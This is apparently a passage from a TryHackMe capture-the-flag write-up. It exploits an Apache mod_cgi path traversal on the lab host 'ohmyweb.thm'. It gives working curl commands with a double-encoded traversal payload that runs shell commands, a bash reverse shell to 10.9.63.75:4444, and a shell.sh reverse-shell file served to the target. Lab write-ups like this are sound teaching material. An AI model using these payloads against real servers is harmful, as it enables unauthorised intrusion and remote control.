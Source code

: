```
# PoC.sh targets.txt /bin/sh whoami
```

To verify the target server is vulnerable, I simply use the `curl` with the `/cgi-bin` path:

```
┌──(kali㉿kali)-[~/TryHackMe/ohmyweb]
└─$ curl http://ohmyweb.thm/cgi-bin/
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
</body></html>
```

The response code is `403` which means it actually enabled the **mod_cgi**. Therefore, I had another simple test with a malicious payload which has been double URL-encoded:

```
┌──(kali㉿kali)-[~/TryHackMe/ohmyweb]
└─$ curl http://ohmyweb.thm/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh --data 'echo Content-Type: text/plain; echo; id'
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

## Exploit → Gain Access

To perform a fulfilled attack, I need to establish a reverse shell for better interact with the server:

```
┌──(kali㉿kali)-[~/TryHackMe/ohmyweb]
└─$ curl http://ohmyweb.thm/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh --data 'echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/10.9.63.75/4444 0>&1'
```

However, executing the above command within running listener on my local machine, I still do not get the shell back. Then, I need to manually embed the payload into a particular shell → Transfer it to the server → Execute it:

```
┌──(kali㉿kali)-[~/TryHackMe/ohmyweb]
└─$ ls -l shell.sh
-rw-r--r-- 1 kali kali 38 Sep  7 06:53 shell.sh

┌──(kali㉿kali)-[~/TryHackMe/ohmyweb]
└─$ cat shell.sh
bash >& /dev/tcp/10.9.63.75/4444 0>&1

┌──(kali㉿kali)-[~/TryHackMe/ohmyweb]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.114.109 - - [07/Sep/2023 07:18:20] "GET /shell.sh HTTP/1.1" 200 -
```
